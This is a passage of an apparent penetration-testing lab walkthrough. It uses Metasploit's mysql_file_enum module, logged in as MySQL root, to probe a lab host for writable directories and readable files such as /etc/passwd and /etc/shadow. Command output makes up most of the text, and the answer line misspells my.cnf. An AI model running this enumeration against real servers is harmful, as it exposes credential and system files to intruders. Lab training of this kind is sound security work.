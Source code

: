 ```bash
[!] 192.15.56.3:3306      - Can't create/write to file '/Benefits/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /Data...
[!] 192.15.56.3:3306      - Can't create/write to file '/Data/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /Invitation...
[!] 192.15.56.3:3306      - Can't create/write to file '/Invitation/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /Office...
[!] 192.15.56.3:3306      - Can't create/write to file '/Office/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /Site...
[!] 192.15.56.3:3306      - Can't create/write to file '/Site/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /Admin...
[!] 192.15.56.3:3306      - Can't create/write to file '/Admin/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /etc...
[!] 192.15.56.3:3306      - Can't create/write to file '/etc/ZdAOtBtH' (Errcode: 13)
[*] 192.15.56.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 7. How many of sensitive files present in `/usr/share/metasploit-framework/data/wordlists/sensitive_files.txt` are readable? List the names.

Answer:&#x20;

> `10` sensitive files are readable: `/etc/passwd`, `/etc/shadow`, `/etc/group`, `/etc/mysql/my.cn`, `/etc/hosts`, `/etc/hosts.allow`, `/etc/hosts.deny`, `/etc/issue`, `/etc/fstab`, `/proc/version`

```bash
msf5 > use auxiliary/scanner/mysql/mysql_file_enum 
msf5 auxiliary(scanner/mysql/mysql_file_enum) > options

Module options (auxiliary/scanner/mysql/mysql_file_enum):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   DATABASE_NAME  mysql            yes       Name of database to use
   FILE_LIST                       yes       List of directories to enumerate
   PASSWORD                        no        The password for the specified username
   RHOSTS                          yes       The target address range or CIDR identifier
   RPORT          3306             yes       The target port (TCP)
   TABLE_NAME     VgKcqADt         yes       Name of table to use - Warning, if the table already exists its contents will be corrupted
   THREADS        1                yes       The number of concurrent threads
   USERNAME       root             yes       The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_file_enum) > set RHOSTS 192.15.56.3
RHOSTS => 192.15.56.3
msf5 auxiliary(scanner/mysql/mysql_file_enum) > set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files
sensitive_files.txt      sensitive_files_win.txt  
msf5 auxiliary(scanner/mysql/mysql_file_enum) > set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
FILE_LIST => /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
msf5 auxiliary(scanner/mysql/mysql_file_enum) > exploit

[+] 192.15.56.3:3306      - /etc/passwd is a file and exists
[+] 192.15.56.3:3306      - /etc/shadow is a file and exists
[+] 192.15.56.3:3306      - /etc/group is a file and exists
[+] 192.15.56.3:3306      - /etc/mysql/my.cnf is a file and exists
[+] 192.15.56.3:3306      - /etc/hosts is a file and exists
[+] 192.15.56.3:3306      - /etc/hosts.allow is a file and exists
[+] 192.15.56.3:3306      - /etc/hosts.deny is a file and exists
[+] 192.15.56.3:3306      - /etc/issue is a file and exists
[+] 192.15.56.3:3306      - /etc/fstab is a file and exists
[+] 192.15.56.3:3306      - /proc/version is a file and exists
[*] 192.15.56.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```